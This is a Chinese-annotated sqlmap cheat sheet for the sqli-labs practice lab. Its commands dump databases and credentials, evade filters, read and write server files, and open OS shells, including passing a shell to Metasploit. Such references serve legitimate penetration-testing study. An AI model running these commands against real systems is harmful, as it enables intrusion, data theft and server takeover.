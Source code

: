 ```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```
